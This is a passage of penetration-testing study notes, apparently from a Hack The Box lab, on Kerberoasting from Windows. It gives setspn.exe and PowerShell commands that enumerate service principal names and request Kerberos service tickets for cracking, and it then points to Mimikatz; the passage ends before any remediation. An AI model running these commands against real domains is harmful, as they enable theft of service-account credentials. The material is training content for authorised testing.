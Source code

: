 # Kerberoasting - from Windows (+REMEDIATION)

### <mark style="color:red;">Kerberoasting - Semi Manual method</mark>

<mark style="color:green;">**Enumerating SPNs with setspn.exe**</mark>

```cmd-session
C:\htb> setspn.exe -Q */*
```

We will notice many different SPNs returned for the various hosts in the domain. We will focus on `user accounts` and ignore the computer accounts returned by the tool

<mark style="color:green;">**Targeting a Single User**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
{% endcode %}

* The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
* The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
* [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
* We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
* We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

<mark style="color:green;">**Retrieving All Tickets Using setspn.exe**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```
{% endcode %}

Now that the tickets are loaded, we can use `Mimikatz` to extract the ticket(s) from `memory`.

### <mark style="color:red;">Extracting Tickets from Memory with Mimikatz</mark>
